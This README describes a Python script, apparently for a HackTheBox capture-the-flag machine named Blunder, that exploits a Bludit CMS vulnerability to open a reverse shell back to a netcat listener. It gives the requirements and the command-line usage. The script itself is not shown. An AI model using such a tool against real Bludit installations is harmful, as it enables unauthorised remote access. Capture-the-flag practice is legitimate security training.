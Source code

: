 # HTB Blunder

## About
Python script that automates a back-connect shell on the HackTheBox machine **Blunder**.

Exploits a vulnerability in the Bludit CMS:
https://github.com/bludit/bludit/issues/1081

## Requirements
Requires netcat to be installed on your system and installed to your $PATH as **nc**

## Usage
Specify the host and port you wish to listen on:

`htb-blunder.py {LHOST} {LPORT}`
